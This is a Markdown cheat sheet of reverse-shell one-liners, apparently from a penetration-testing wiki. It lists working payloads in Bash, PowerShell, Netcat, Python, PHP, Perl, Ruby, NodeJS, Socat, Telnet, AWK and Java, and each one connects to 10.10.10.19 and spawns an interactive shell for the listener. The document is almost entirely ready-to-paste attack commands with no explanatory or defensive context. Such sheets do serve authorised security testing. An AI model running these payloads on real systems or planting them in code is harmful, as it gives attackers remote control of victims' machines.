 # Reverse Shells

### Bash <a id="bash"></a>

```bash
bash -c >& /dev/tcp/10.10.10.19/7878 0>&1
```

### Powershell <a id="powershell"></a>

```scheme
powershell.exe -c "$c = New-Object System.Net.Sockets.TCPClient('10.10.10.19',7878);$str = $c.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $str.Read($b,0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sendback = (iex $d 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sb = ([text.encoding]::ASCII).GetBytes($sendback2);$str.Write($sb,0,$sb.Length);$str.Flush()};$c.Close()"
```

### Netcat <a id="netcat"></a>

#### Linux <a id="linux"></a>

```bash
#Basic
nc -e /bin/sh 10.10.10.19 7878

​#Pipe
nc 10.10.10.19 7878 | /bin/sh

​#Advanced
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.19 7878 >/tmp/f
```

#### Windows <a id="windows"></a>

```scheme
nc.exe -e cmd.exe 10.10.10.19 7878
```

### Python <a id="python"></a>

```bash
#Type 1
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.19",7878));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'​

#Type 2
export RHOST="10.10.10.19";export RPORT=7878;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

### PHP <a id="php"></a>

```bash
#Inside PHP file
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.19/7878 0>&1'"); ?>​

#From command line
php -r '$sock=fsockopen("10.10.10.19",7878);exec("/bin/sh -i <&3 >&3 2>&3");' 
```

### Perl <a id="perl"></a>

```bash
#Type 1
perl -e 'use Socket;$i="10.10.10.19";$p=7878;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'​

#Type 2
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.10.19:7878");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Ruby <a id="ruby"></a>

```bash
#Type 1
ruby -rsocket -e'f=TCPSocket.open("10.10.10.19",7878).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

​#Type 2
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.19","7878");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### NodeJS <a id="nodejs"></a>

```javascript
require('child_process').exec('nc -e sh 10.10.10.19 7878')
```

### Socat <a id="socat"></a>

```bash
socat TCP:10.10.10.19:7878 EXEC:sh
```

### Telnet <a id="telnet"></a>

```bash
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.10.19 7878 0<$TF | sh 1>$TF
```

### AWK <a id="awk"></a>

```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.19/7878"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Java <a id="java"></a>

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.19/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

[  
](https://wiki.devploit.dev/exploitation/shells/shellcodes)

